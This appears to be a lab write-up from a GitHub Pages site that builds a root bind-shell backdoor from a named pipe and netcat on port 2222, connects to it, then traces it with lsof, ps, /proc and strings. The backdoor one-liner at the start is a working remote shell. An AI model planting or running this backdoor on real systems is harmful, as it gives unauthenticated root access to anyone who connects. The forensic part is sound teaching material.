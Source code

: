 ```yaml
---
layout: default
---
```

[Back](./)

## FIFO Backdoor (First In First Out)
Running 3 WSL linux sessions
The first will be where we run the backdoor.
The second will be where we connect to it.
The third is where we will be running our analysis.

**Machine 1**

Create the backdoor
1. Elevate to root `sudo su`
2. Create a fifi backpipe `mknod backpipe p`
3. Start the backdoor `/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
> In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session. It then takes the output of the bash session and puts it back into the netcat listener.

**Machine 2**

Connect to this backdoor
1. Get IP address info `ip add`
2. Run netcat on the IP + Port `nc 172.20.146.40 2222`

**Machine 1**

Analyze the backdoor
1. Open another tab on the original machine to analyse the backdoor connection using`lsof -i -P`
|Flag       |Define       |
| ----  | ----  |
|-i       |Looking at the open Internet connections.|
|-P       |Telling lsof to not guess what the service is on the ports. Just give us the port number.|
|-p       |List open files associated with the listed process ID.|
Output:
```
COMMAND    PID            USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nc        1757            root    3u  IPv4  48020      0t0  TCP *:2222 (LISTEN)
nc        1757            root    4u  IPv4  48021      0t0  TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```
2. List open files associated with the listed process ID. `sudo lsof -p 1757`
Output::
```
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF  NODE NAME
nc      1757 root  cwd    DIR   8,32     4096 40961 /root
nc      1757 root  rtd    DIR   8,32     4096     2 /
nc      1757 root  txt    REG   8,32    39560  1590 /usr/bin/nc.openbsd
nc      1757 root  mem    REG   8,32    47472  6689 /usr/lib/x86_64-linux-gnu/libmd.so.0.0.5
nc      1757 root  mem    REG   8,32  2216304  6521 /usr/lib/x86_64-linux-gnu/libc.so.6
nc      1757 root  mem    REG   8,32    68552  6801 /usr/lib/x86_64-linux-gnu/libresolv.so.2
nc      1757 root  mem    REG   8,32    89096  6517 /usr/lib/x86_64-linux-gnu/libbsd.so.0.11.5
nc      1757 root  mem    REG   8,32   240936  6325 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
nc      1757 root    0r  FIFO   0,12      0t0 51879 pipe
nc      1757 root    1w  FIFO   8,32      0t0  6659 /root/backpipe
nc      1757 root    2u   CHR  136,2      0t0     5 /dev/pts/2
nc      1757 root    3u  IPv4  48020      0t0   TCP *:2222 (LISTEN)
nc      1757 root    4u  IPv4  48021      0t0   TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```
3. List all of the proccesses on the system for all users. `ps aux`
Output:
```
bandit      1657  0.0  0.0   6080  5064 pts/3    Ss   22:01   0:00 -bash
root        1755  0.0  0.0   4780  3196 pts/2    S+   23:54   0:00 bash /home/bandit/fifo-backdoor.sh
root        1756  0.0  0.0   4912  3624 pts/2    S+   23:54   0:00 /bin/bash
**root        1757  0.0  0.0   3532  1220 pts/2    S+   23:54   0:00 nc -l 2222**
bandit      1769  0.0  0.0   7480  3244 pts/3    R+   23:55   0:00 ps aux
```
>-   The output includes information such as the process ID (PID), the user who started the process (USER), the CPU and memory usage, and the command that initiated the process (COMMAND).
>-   The command displays both active processes and those in a "zombie" or "defunct" state.
>-   "ps aux" gives a comprehensive view of the system's current process landscape and can be useful for monitoring system activity, identifying resource-intensive processes, and troubleshooting issues.
4. Change into the proc directory for that pid. `cd /proc/1757` `ls`
Output:
```
ls: cannot read symbolic link 'cwd': Permission denied
ls: cannot read symbolic link 'root': Permission denied
ls: cannot read symbolic link 'exe': Permission denied
arch_status  comm             fd         maps        ns             projid_map  smaps_rollup  task
attr         coredump_filter  fdinfo     mem         oom_adj        root        stack         timens_offsets
auxv         cpuset           gid_map    mountinfo   oom_score      sched       stat          timers
cgroup       cwd              io         mounts      oom_score_adj  schedstat   statm         timerslack_ns
clear_refs   environ          limits     mountstats  pagemap        setgroups   status        uid_map
cmdline      exe              map_files  net         personality    smaps       syscall       wchan
```
> **/proc**  contains a virtual file system that provides information about running processes it does **not exist on the drive.** It allows us to see data associated with the various processes **directly**. This can be very usesfull as it allows us to **dig into the memory of a process that is currently running on a suspect system.**
5. Identigy exactly what the program doing `strings ./exe`
Output:
```
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit]
          [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]]
          [destination] [port]
        Command Summary:
                -4              Use IPv4
                -6              Use IPv6
                -b              Allow broadcast
                -C              Send CRLF as line-ending
```

> Now we can see the actual usage information for netcat
> We can run strings on the exe in this directory. This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments. We use this all the time to attempt to identify what exactly a program is doing.

[Back](./)

